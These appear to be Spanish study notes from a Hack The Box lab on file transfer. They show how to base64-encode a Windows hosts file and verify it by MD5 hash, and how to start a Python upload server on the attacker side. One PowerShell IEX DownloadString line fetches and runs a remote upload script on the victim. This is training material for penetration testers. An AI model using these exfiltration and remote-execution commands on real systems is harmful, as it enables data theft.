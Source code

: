 - Convierte cualquier archivo en una **cadena Base64**.
- Resultado: un texto largo que puedes copiar desde la shell de la víctima.

Como salida, se obtiene:
```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cmln... ... CAgICAgICAgICAgbG9jYWxob3N0DQo=
```

Consultamos el hash md5 de dicho archivo, con:
```
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

Nos copiamos la cadena en Bas64 desde la víctima al atacante, guardándola en un archivo hosts_base64.txt.

Lo decodificamos en Linux con:
```
cat hosts_base64.txt | base64 -d > hosts_copy
md5sum hosts_copy
```

Obteniendo como salida: 
```shell-session
Polika4RM@htb[/htb]$ md5sum hosts 

3688374325b992def12793500307566d  hosts
```

De esta forma, comparando el HASH vemos que el contenido se ha mantenido.

## 2. PowerShell Web Uploads

Cuando queremos **subir archivos desde la víctima a un servidor web** usando PowerShell:
##### 1. Preparar el servidor web con soporte para uploads (desde el atacante)
- Usamos **uploadserver**, un módulo Python basado en `http.server` que permite subir archivos.
```
>sudo apt install pipx
>pipx ensurepath
>pipx install uploadserver
>python3 -m uploadserver
```
- El servidor queda disponible en `http://<IP>:8000/`.
- La página de upload se encuentra en `/upload`.
   
#### 2. Subir archivos desde la víctima con PowerShell
- Descargamos el script `PSUpload.ps1` (ubicado en: https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) en la víctima:
Ejecutamos desde la PowerShell:
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
```
